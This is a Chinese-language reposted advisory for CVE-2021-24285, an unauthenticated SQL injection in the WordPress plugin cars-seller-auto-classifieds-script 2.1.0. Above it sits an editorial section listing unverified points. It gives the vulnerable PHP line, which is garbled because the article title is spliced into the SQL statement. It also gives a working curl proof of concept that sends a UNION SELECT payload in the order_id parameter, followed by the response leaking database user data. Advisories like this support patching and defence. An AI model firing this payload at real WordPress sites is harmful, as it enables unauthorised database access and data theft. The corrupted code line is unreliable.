

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：plugin2.1.0 tested; unauthenticated request_list_request AJAX; lower-version range unverified

- **事实待核（1）**：应以插件而非WP核心为主产品；无修复版本/官方公告。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：源代码SELECT行中插入文章标题CVE-2021-24285 WordPress Sql注入，明确正文污染。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（3）**：curl的order_id九列UNION与完整HTML结果相互对应；但测试单版本不足支持所有更低版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（4）**：转载及微信来源有定位，仍缺原始插件修复记录。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# CVE-2021-24285 WordPress Sql 注入

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1CAS8RCbXwE0jzthSx7gtA)


CVE-2021-24285 

    插件名称：wp-plugin：cars-seller-auto-classifieds-script

    受影响的版本：2.1.0（如果有，则可能是较低版本）

    漏洞：注入

    所需的最低访问级别：未认证

### 披露时间

*   2021 年 4 月 19 日：确定并向 WPScan 公开了问题
    
*   2021 年 4 月 19 日：插件已关闭
    
*   2021 年 4 月 22 日：分配了 CVE
    
*   2021 年 4 月 26 日：公开披露
    

技术细节

        经过 身份验证和未经身份验证的用户都可以使用 request_list_request AJAX 调用，无法 order_id 在 SQL 语句中使用 POST 参数之前对其进行卫生检查，验证或转义，这会导致 SQL 注入问题。

漏洞代码：carseller_request_list.php＃L248

```
248:    $result = $wpdb->get_results("SELECT * FROM $tablename CVE-2021-24285 WordPress Sql注入 WHERE id=" . $_POST['order_id']);
```

Poc：



```
curl 'http://<Hostname>/wp-admin/admin-ajax.php' \
  --data-raw 'action=request_list_request&order_id=-1662 UNION ALL SELECT NULL,NULL,current_user(),current_user(),current_user(),NULL,current_user(),current_user(),NULL-- -' \
  --compressed \
  --insecure
```

```
<h1>Request Details</h1>
        <table style=" border: 1px solid #999;width:96%" class="order_detail">
            <tr>
                <td>Request Id</td><td></td>
            </tr>
            <tr>
                <td>Car Title</td><td>Untitled</td>
            </tr>
            <tr>
                <td>Name</td><td>bob@localhost bob@localhost</td>
            </tr>
            <tr>
                <td>Email</td><td>bob@localhost</td>
            </tr>
            <tr>
                <td>Phone</td><td>bob@localhost</td>
            </tr>
            <tr>
                <td>Message</td><td>bob@localhost</td>
            </tr>
            <tr>
                <td colspan="2" align="center"><a href="mailto:bob@localhost" style="background: #2ea2cc;border-color: #0074a2;-webkit-box-shadow: inset 0 1px 0 rgba(120,200,230,.5),0 1px 0 rgba(0,0,0,.15);box-shadow: inset 0 1px 0 rgba(120,200,230,.5),0 1px 0 rgba(0,0,0,.15);color: #fff;text-decoration: none;vertical-align: baseline;display: inline-block;text-decoration: none;font-size: 13px;line-height: 26px;height: 28px;margin: 0;padding: 0 10px 1px;cursor: pointer;border-width: 1px;
border-style: solid;-webkit-appearance: none;-webkit-border-radius: 3px;border-radius: 3px;white-space: nowrap;-webkit-box-sizing: border-box;-moz-box-sizing: border-box;box-sizing: border-box;">Reply</a></td>

            </tr>

        </table>
        <p style="margin-top:20px; text-align:right;"><a href="#" id="close">Close</a></p>
```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
